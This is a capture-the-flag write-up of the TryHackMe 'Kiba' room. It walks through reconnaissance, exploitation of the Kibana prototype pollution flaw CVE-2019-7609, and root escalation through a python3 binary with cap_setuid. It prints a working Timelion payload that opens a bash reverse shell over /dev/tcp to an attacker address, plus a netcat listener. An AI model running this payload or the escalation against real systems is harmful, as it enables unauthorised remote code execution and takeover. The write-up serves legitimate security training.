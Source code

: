 <h1 align="center"><a href="https://tryhackme.com/room/kiba">TryHackMe Kiba</a></h1>

<h2 align="center"><a href="https://twitter.com/0xTas">Writeup By: 0xTas</a></h2>

<p align="center">
    <a href="https://tryhackme.com/p/0xTas">
        <img alt="0xTas TryHackMe Profile" src="https://tryhackme-badges.s3.amazonaws.com/0xTas.png"></a>  
</p>


<h3 align="center">15 June 2022</h3>

---

## Description

Identify the critical security flaw in the data visualization dashboard, that allows remote code execution.

---

## Questions

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

Fairly simple question, easy to Google if needed, but I do have a little bit of experience writing server-side Javascript, so to me this sounds like prototype pollution. <br>

Prototype pollution is a vulnerability that takes advantage of the way that objects in languages like Javascript inherit properties and methods from their "prototype" objects. <br>

Prototype pollution occurs when an attacker can inject malicious code to change the properties and methods of the prototype object itself. <br>
In Javascript, there is a property, "\_\_proto\_\_", which can be used to access the prototype object, and potentially alter its methods. <br>
If an attacker can inject malicious code using the __proto__ property, they can redefine the global methods that apply to all instances of that object, thus polluting the namespace with arbitrary code. <br>
It is also possible to alter properties of objects with Prototype Pollution, as long as the specific instance of the target object does not explicity overwrite this property with its own value, which would override the polluted value. <br>


> Answer: Prototype Pollution

---

### What is the version of visualization dashboard installed in the server?

First I ran a typical scan with Nmap: <br>

`tas@kali$ nmap -vv -sV -sC -p- -T4 kiba.thm -oN nmap/full.log` <br>

> 22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) <br>
> 80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu)) <br>
> 5044/tcp open  lxi-evntsvc? syn-ack <br>
> 5601/tcp open  esmagent?    syn-ack <br>

So we're dealing with SSH, a webserver, and a couple of services that I don't recognize right away. <br>

First I visited the homepage of the webserver. It was mostly blank with ASCII art of what looked like a moth or butterfly, and the words "Welcome, 'Linux Capabilities' is very interesting.". <br>

Indeed they are, but this wasn't going to help me right this second. Checking the source, I confirmed that there was nothing else interesting on this index.html page. <br>

I decided to run a Nikto and Gobuster scan on the webserver while I manually checked out those other 5XXX ports. <br>

`tas@kali$ nikto -h http://kiba.thm` <br>

`tas@kali$ gobuster dir -u http://kiba.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` <br>

While those scans were running, I tried navigating to the service on port 5044 with my browser, but received a "ERR_CONNECTION_RESET" response. <br>

Next I tried to connect with netcat, but this failed as well: <br>

`tas@kali$ nc -nv $IP 4055` <br>

![Netcat Connection Refused](https://i.imgur.com/aQNNUVI.png)

After this I moved on to checking the service running on port 5601, and it brought me to an actual webpage at '/app/kibana' that appeared to be a dashboard for a product called Kibana. <br>

![Kibana Dashboard](https://i.imgur.com/FKeUOfA.png)

Poking around the dashboard for a little bit, I was able to find a version disclosure on the management tab: <br>

![Kibana Dashboard Version](https://i.imgur.com/8aKKBjh.png)

<details>
    <summary>Kibana Version</summary>

> Answer: Version 6.5.4
</details>

---

### What is the CVE number for this vulnerability?

Searching on Google for "kibana prototype pollution exploit", I was immediately able to indentify the CVE. <br>

<details>
    <summary>CVE Number</summary>

> Answer: CVE-2019-7609
</details>

---

### Compromise the machine and locate user.txt

Following through with my Google search, I read from a couple different resources to learn more about this vulnerability, and how to exploit it. <br>

The vulnerability is in the Timelion Data Visualizer, but also involves the Canvas Workpads module.
Basically, when you load the canvas tab, Kibana attempts to start a new NodeJS process in the background.
This was taken advantage of, but the most direct path to RCE via a "--eval" statement was not allowed, so [the researcher](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) who discovered this exploit had to get creative.
They found that by using prototype pollution in the Timelion visualizer to inject an environment variable containing valid Javascript syntax, they could force NodeJS
to load those environment variables by using the "--require" option instead. 
Since on Linux, the file "/proc/self/environ" contains these environment variables, when the attacker opens the canvas after polluting them with their malicious Javascript code,
the new Node process that spawns would include the malicious environment variable and execute the code within. <br>

Unfortunately, I couldn't get the PoC payload from this researcher's article to function properly in this situation, but I found an [alternative payload on Github](https://github.com/mpgn/CVE-2019-7609). <br>
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.2.2.70/7777 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

So, using the payload with working syntax, I navigated to the Timelion visualizer and pasted it in, making sure to click the "run" button to the right. <br>

![TimeLion Visualizer Payload](https://i.imgur.com/hVfJmWB.png)

Next I made sure to start a netcat listener with bash in my terminal: <br>

`tas@kali$ nc -lnvp 7777` <br>

And then I clicked on the canvas tab in the Kibana Dashboard. <br>

![Kibana Canvas loading with exploit](https://i.imgur.com/NloT6vi.png)

At that moment, I caught a shell on the server: <br>

![Kibana RCE Reverse Shell](https://i.imgur.com/N3I2oyV.png)

I was able to locate user.txt in /home/kiba. <br>

> Answer: THM{1s_**************************}

---

### How would you recursively list capabilities for Linux binaries?

For this question I referenced my notes on Linux enumeration and privilege escalation: <br>

![Linux Capabilities Info](https://i.imgur.com/OmRlh78.png)

<details>
    <summary>List Linux Capabilities</summary>

You can list enabled capabilities with `getcap -r /`. <br>
Running the command without root privileges causes many errors, so you should generally append `2>/dev/null` to suppress them. <br>

> Answer: getcap -r /
</details>

---

### Escalate privileges and obtain root.txt

I ran the command to list interesting capabilities: <br>

![getcap -r / Output](https://i.imgur.com/YbEc7FZ.png)

Right away the python3 entry stood out to me, especially because it was in a folder named ".hackmeplease". <br>

The binary had cap_setuid enabled, so I headed to [GTFOBins](https://gtfobins.github.io/gtfobins/python/) to learn how we might exploit this. <br>

![GTFOBins Python Capabilities](https://i.imgur.com/zlqNwaM.png)

By using the OS module to change the UID of the Python process with `os.setuid(0)`, we can spawn a privileged shell with `os.system`. <br>

I navigated into the .hackmeplease directory, and carried out the escalation process: <br>

![Python Capabilities Privilege Escalation](https://i.imgur.com/wCV2wIR.png)

It worked, and from there I was able to retrieve the flag from root.txt. <br>

> Answer: THM{pr1v1lege_*****************************}

---
